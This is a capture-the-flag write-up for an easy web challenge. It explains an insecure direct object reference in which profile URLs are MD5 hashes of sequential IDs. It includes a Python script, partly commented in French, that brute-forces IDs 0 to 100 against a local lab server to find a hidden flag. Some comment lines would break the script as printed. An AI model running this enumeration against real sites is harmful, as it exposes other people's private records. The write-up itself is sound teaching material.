## WRITEUP - OBSCURA
-   Level : **Easy**

-   Category: **Web**

- Description : A university recently launched an online portal to showcase student profiles.
Seven profiles are listed, each with basic information (photo, name, class, graduation date).

However, something seems off... rumors say a hidden profile is guarding a secret.

Can you uncover it?

Note : Flag is in format of FLAG{************}

-------------------------------------------------
## 1 - Reconnaissance

- Visiting the homepage :

![alt text](imageswriteup/1.png)

We see a list of student profiles displayed.

- First reflex: check the page source to see if anything interesting is hidden there. 

![alt text](imageswriteup/2.png)

Unfortunately, nothing useful was found.

-   However, on the homepage, we notice a potential <code>hint</code>:

![alt text](imageswriteup/3.png)

- Let’s take a closer look at one student profile:

![alt text](imageswriteup/4.png)

Hummm... We notice that the URL path contains what looks like a <code>hash.</code>

- Verifying other profiles :

![alt text](imageswriteup/5.png)

Same pattern everywhere. For example, the profile of<code>Imane Z.</code> has ID = 7.un <code>Let’s check the hash on <code> https://crackstation.net/ </code>

![alt text](imageswriteup/6.png)

Bingo 🎯 — it resolves to 7, and the hash is indeed in <code>MD5</code> format.

-   So the application simply takes the numeric ID of the student and transforms it into MD5, then uses it as the profile URL.
-   This is a classic Insecure Direct Object Reference (IDOR) vulnerability.

- What is IDOR?
IDOR (Insecure Direct Object Reference) happens when an application exposes internal identifiers (like IDs, filenames, or keys) in a way that attackers can manipulate to access unauthorized resources.

------------------------------------------
## 2 - Exploitation

-  The goal now is to <code>find the correct ID</code> that contains the hidden flag.

- Doing it manually would take too long, so let’s automate it with a Python script.

We asked ChatGPT to generate one:

![alt text](imageswriteup/10.png)

- It gave us :

<pre> 
    import hashlib
    import requests
    import re

    BASE_URL = "http://127.0.0.1:5000"

    Regex pour matcher le flag
    flag_pattern = re.compile(r"FLAG\{.*?\}")

    //Tester les ID de 0 à 100
    for i in range(101):
        # Calcul du hash MD5
        md5_hash = hashlib.md5(str(i).encode()).hexdigest()
        url = f"{BASE_URL}/{md5_hash}"

        try:
            response = requests.get(url, timeout=5)

            if response.status_code == 200:
                match = flag_pattern.search(response.text)
                if match:
                    print(f"[✅] Flag trouvé ! ID: {i} | Hash: {md5_hash}")
                    print(f"[🎯] {match.group()}")
                    break
                else:
                    print(f"[ ] Pas de flag pour ID {i} (hash: {md5_hash})")
            else:
                print(f"[⚠️] Erreur HTTP {response.status_code} pour ID {i} (hash: {md5_hash})")

        except requests.RequestException as e:
            print(f"[⛔] Exception pour ID {i}: {e}")
</pre>

-   Running the script:

![alt text](imageswriteup/11.png)

-    After a few seconds, the script finds the <code>correct ID and hash</code>:

![alt text](imageswriteup/13.png)

The hidden profile is at **ID = 55.**

-   Visiting it confirms the presence of the **FLAG:**

![alt text](imageswriteup/14.png)




